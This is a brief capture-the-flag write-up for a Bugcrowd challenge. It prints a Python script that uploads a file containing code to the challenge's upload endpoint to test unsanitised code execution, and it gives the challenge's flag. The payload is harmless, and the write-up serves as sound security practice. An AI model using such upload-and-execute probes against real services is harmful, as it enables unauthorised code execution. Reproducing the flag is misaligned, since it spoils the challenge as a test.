 ```yaml
---
ai_date: 2025-04-27 05:13:30
ai_summary: Payload executed without sanitization, likely a code execution vulnerability
ai_tags:
  - exec
  - payload-execution
created: 2024-08-08T08:23
points: 425
updated: 2025-07-14T09:46
---
```


Again, the challenge is kinda wonky.

Same payload as the first ai challenge.

```python
from io import BytesIO
import requests

payload = b"""
print(1)
""".strip()

print(requests.post('https://bugcrowd-im-still-watching-you.chals.io/upload', files={'file1': BytesIO(payload)}).text)
```

```flag
flag{are_you_the_keymaster}
```